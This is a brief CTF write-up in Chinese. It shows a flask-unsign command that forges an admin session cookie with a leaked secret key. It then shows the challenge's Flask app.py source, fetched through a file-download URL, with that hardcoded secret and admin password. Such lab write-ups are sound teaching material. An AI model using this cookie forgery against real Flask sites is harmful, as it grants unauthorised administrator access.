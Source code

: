 `flask-unsign --sign --cookie "{'loggedin': True, 'role': 'admin', 'username': 'wuwumonster'}" --secret 'S3cr3tK3y'`
假flag捏

![](attachments/Pasted%20image%2020230401121336.png)

想到了用这个下载fakeflag的url下载源码

```python
# app.py
from flask import Flask, render_template, request, redirect, url_for, session, send_file, Response


app = Flask(__name__)


app.secret_key = 'S3cr3tK3y'

users = {
    'admin': {'password': 'LKHSADSFHLA;KHLK;FSDHLK;ASFD', 'role': 'admin'}
}



@app.route('/')
def index():
    # Check if user is loggedin
    if 'loggedin' in session:
        return redirect(url_for('profile'))
    return redirect(url_for('login'))

@app.route('/login/', methods=['GET', 'POST'])
def login():
    msg = ''
    if request.method == 'POST' and 'username' in request.form and 'password' in request.form:
        username = request.form['username']
        password = request.form['password']
        if username in users and password == users[username]['password']:
            session['loggedin'] = True
            session['username'] = username
            session['role'] = users[username]['role']
            return redirect(url_for('profile'))
        else:
            msg = 'Incorrect username/password!'
    return render_template('login2.html', msg=msg)


```